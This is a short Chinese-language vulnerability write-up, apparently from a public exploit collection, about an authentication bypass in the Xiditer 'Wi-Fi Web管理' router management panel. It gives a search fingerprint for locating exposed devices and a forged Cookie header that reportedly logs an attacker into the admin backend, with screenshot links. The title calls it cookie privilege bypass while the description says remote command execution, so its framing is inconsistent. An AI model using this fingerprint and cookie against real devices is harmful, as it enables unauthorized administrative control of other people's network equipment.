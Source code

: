# 西迪特 Wi-Fi Web管理 Cookie 越权访问漏洞

## 漏洞描述

西迪特 Wi-Fi Web管理系统后台过滤不足导致远程命令执行漏洞

## 漏洞影响

<a-checkbox checked>西迪特 Wi-Fi Web管理</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title=="Wi-Fi Web管理"</a-checkbox></br>

## 漏洞复现o

登录页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1629371298672-1ceeafe8-ba9c-42c5-b873-3dfabdd0305a.png)

添加Cookie，即可登录后台

```bash
Cookie: timestamp=0; cooLogin=1; cooUser=admin
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1629371805870-5f6a3a10-7c92-481c-97fe-46886dd474b6.png)

